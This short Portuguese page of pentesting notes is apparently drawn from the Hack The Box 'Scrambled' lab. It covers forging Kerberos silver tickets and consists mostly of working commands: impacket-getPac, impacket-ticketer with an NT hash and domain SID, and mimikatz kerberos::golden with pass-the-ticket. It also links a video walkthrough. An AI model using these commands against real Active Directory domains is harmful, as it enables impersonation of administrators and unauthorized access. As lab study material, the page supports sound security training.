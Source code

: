 ```
impacket-getPac -targetUser administrator scrm.local/ksimpson:ksimpson
```

**Obtendo o silver ticket**

```
impacket-ticketer -nthash 5f38c0485f0c23f8dedf9bf23ffa5336  -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local -spn MSSQLSvc/dc1.scrm.local:1433 administrator
```

Caso já tenha acesso na máquina

```
whoami /user
#Daí, com o mimikatz, a gente faz o seguinte:
./m.exe
kerberos::list
kerberos::golden /user:user /domain:domain.com /sid:domain-SID /target:SPN /service:HTTP
/rc4:NTLM /ptt
#Exemplo
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-
2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP
/rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

kerberos::list
```

Tem a demonstração deste ataque no seguinte vídeo (Scrambled - Hack the box):

{% embed url="https://www.youtube.com/watch?v=_8FE3JZIPfo&ab_channel=IppSec" %}

[https://www.hackingarticles.in/lateral-movement-pass-the-ccache/](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)



